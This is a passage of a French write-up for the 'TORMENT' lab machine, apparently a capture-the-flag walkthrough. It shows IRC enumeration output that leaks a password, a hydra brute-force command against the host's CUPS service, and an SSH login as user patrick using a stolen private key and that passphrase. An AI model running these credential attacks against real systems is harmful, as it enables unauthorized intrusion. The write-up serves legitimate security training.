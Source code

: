```
:irc.example.net 005 sirius RFC2812 IRCD=ngIRCd CHARSET=UTF-8 CASEMAPPING=ascii PREFIX=(qaohv)~&@%+ CHANTYPES=#&+ CHANMODES=beI,k,l,imMnOPQRstVz CHANLIMIT=#&+:10 :are supported on this server
:irc.example.net 005 sirius CHANNELLEN=50 NICKLEN=9 TOPICLEN=490 AWAYLEN=127 KICKLEN=400 MODES=5 MAXLIST=beI:50 EXCEPTS=e INVEX=I PENALTY :are supported on this server
:irc.example.net 251 sirius :There are 1 users and 0 services on 1 servers
:irc.example.net 254 sirius 3 :channels formed
:irc.example.net 255 sirius :I have 1 users, 0 services and 0 servers
:irc.example.net 265 sirius 1 1 :Current local users: 1, Max: 1
:irc.example.net 266 sirius 1 1 :Current global users: 1, Max: 1
:irc.example.net 250 sirius :Highest connection count: 10 (769 connections received)
:irc.example.net 375 sirius :- irc.example.net message of the day
:irc.example.net 372 sirius :- **************************************************
:irc.example.net 372 sirius :- *             H    E    L    L    O              *
:irc.example.net 372 sirius :- *  This is TORMENT. Breaking us will be torture  *
:irc.example.net 372 sirius :- *  for you, so why even bother trying harder?    *
:irc.example.net 372 sirius :- *                    TORMENT                     *
:irc.example.net 372 sirius :- **************************************************
:irc.example.net 376 sirius :End of MOTD command
LIST
:irc.example.net 321 sirius Channel :Users  Name
:irc.example.net 322 sirius &SERVER 0 :Server Messages
:irc.example.net 322 sirius #tormentedprinter 0 :If you find that the printers are not printing as they should, you can configure them and check for jammed jobs by logging in with the password "mostmachineshaveasupersecurekeyandalongpassphrase".
:irc.example.net 322 sirius #games 0 :Welcome to the Games Channel!
:irc.example.net 323 sirius :End of LIST
```

Dans la logique j'ai tenté d'utiliser le mot de passe `mostmachineshaveasupersecurekeyandalongpassphrase` pour CUPS :

```console
$ hydra -t 1 -L /tmp/users.txt -p mostmachineshaveasupersecurekeyandalongpassphrase https-get://192.168.56.120:631/admin/log/access_log
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-08 11:26:47
[DATA] max 1 task per 1 server, overall 1 task, 15 login tries (l:15/p:1), ~15 tries per task
[DATA] attacking http-gets://192.168.56.120:631/admin/log/access_log
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-08 11:27:17
```

Rien du tout... Mais qui dit passphrase dit clé SSH. Étrangement _JtR_ ne parvenait pas à casser la clé même si on lui passait explicitement le mot de passe. Mais en testant les utilisateurs manuellement on arrive à nos fins : 

```console
$ ssh -i id_rsa patrick@192.168.56.120
Enter passphrase for key 'id_rsa': 
Linux TORMENT 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar  8 19:31:47 2023 from 192.168.56.1
patrick@TORMENT:~$ id
uid=1001(patrick) gid=1001(patrick) groups=1001(patrick)
```
